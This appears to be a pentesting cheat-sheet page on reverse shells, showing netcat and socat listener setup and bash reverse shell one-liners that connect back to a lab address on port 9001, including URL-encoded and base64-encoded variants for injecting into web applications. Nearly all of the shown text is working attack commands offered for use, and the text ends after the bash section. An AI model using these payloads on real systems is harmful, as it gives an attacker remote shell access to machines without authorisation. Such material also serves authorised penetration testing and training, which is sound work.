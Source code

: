 +++
title = 'Reverse Shell Cheatsheet'
date = '2024-01-01'
draft = false
description = 'Comprehensive collection of reverse shell commands, payloads, and techniques for various platforms and languages'
tags = ['reverse-shells', 'payload', 'post-exploitation', 'pentesting']
categories = ['cheatsheets']
+++

# Reverse Shell Cheatsheet

## Setup Listener

### Netcat Listener
```bash
# Basic netcat listener
nc -nlvp 9001

# Enhanced with rlwrap for better shell experience
rlwrap nc -nlvp 9001

# OpenBSD netcat
nc -nlvp 9001

# Traditional netcat
nc -l -p 9001
```

### Socat Listener
```bash
# Basic socat listener
socat file:`tty`,raw,echo=0 tcp-listen:9001

# Encrypted socat listener
socat openssl-listen:9001,cert=server.crt,key=server.key,verify=0 -
```

---

## Bash Reverse Shells

### Basic Bash
```bash
# Standard bash reverse shell
bash -i >& /dev/tcp/10.10.14.13/9001 0>&1

# Alternative syntax
bash -c 'bash -i >& /dev/tcp/10.10.14.13/9001 0>&1'

# URL encoded for web applications
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.13%2F9001%200%3E%261%27

# Base64 encoded
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy85MDAxIDA+JjE= | base64 -d | bash
```
